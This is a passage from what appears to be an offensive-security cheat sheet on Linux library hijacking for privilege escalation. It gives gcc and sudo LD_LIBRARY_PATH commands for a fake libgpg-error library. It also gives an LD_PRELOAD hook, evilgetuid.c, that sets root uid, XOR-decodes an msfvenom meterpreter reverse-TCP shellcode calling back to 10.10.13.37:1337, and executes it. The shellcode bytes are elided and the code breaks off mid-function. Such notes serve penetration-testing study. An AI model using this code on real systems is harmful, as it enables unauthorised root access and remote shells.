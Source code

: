 Prepare the listener, compile, export `LD_LIBRARY_PATH` and run top:

```
$ gcc -Wall -fPIC -c -o fakelib.o fakelib.c
$ gcc -shared -Wl,--version-script gpg.map -o libgpg-error.so.0 fakelib.o
$ sudo LD_LIBRARY_PATH=/home/snovvcrash/ldlib top
```


#### `LD_PRELOAD`

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/sharedLibrary_LD_PRELOAD.c](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/sharedLibrary_LD_PRELOAD.c)

For example, target executable will be `/bin/cp`.

Determine which functions are executed by `/bin/cp` via `LD_PRELOAD`:

```
$ ltrace cp
...
getuid()
...
```

We'll be hooking the `getuid()` function:

{% code title="evilgetuid.c" %}
```c
#define _GNU_SOURCE
#include <sys/mman.h>
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

// msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f c -o met.c --encrypt xor --encrypt-key a
unsigned char buf[] = 
"\x31\x33\...\x33\x37";

uid_t geteuid(void)
{
		typeof(geteuid) *getuid_orig;
		getuid_orig = dlsym(RTLD_NEXT, "geteuid");

		if (fork() == 0) // if inside the forked process
		{
				setuid(0);
				setgid(0);
				printf("Function hooked!\n");

				int bufsize = (int)sizeof(buf);
				for (int i = 0; i < bufsize-1; i++) {
					buf[i] = buf[i] ^ 'a';
				}

				intptr_t pagesize = sysconf(_SC_PAGESIZE);
				if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)), pagesize, PROT_READ|PROT_EXEC)) {
						perror("mprotect");
						return -1;
				}

				int (*ret)() = (int(*)())buf;
				ret();
		}
```